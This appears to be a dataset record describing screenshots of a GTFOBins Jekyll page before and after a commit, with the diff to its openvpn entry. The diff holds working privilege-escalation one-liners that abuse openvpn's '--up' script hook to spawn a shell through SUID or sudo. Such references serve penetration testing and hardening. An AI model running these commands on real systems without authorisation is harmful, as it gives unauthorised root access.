

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvpn.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Use shell only and clean up

```diff
--- a/_gtfobins/openvpn.md
+++ b/_gtfobins/openvpn.md
@@ -1,18 +1,10 @@
 ---
 functions:
-  command:
-    - code: |
-        COMMAND='id'
-        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
-  shell:
-    - code: |
-        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c sh"
   suid:
     - code: |
-        COMMAND='id'
-        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -p -c \"$COMMAND\""
+        ./openvpn --dev tun0 --script-security 2 --up '/bin/sh -p -c "sh -p"'
   sudo:
     - code: |
         COMMAND='id'
-        sudo openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
+        sudo openvpn --dev tun0 --script-security 2 --up '/bin/sh -c sh'
 ---
```
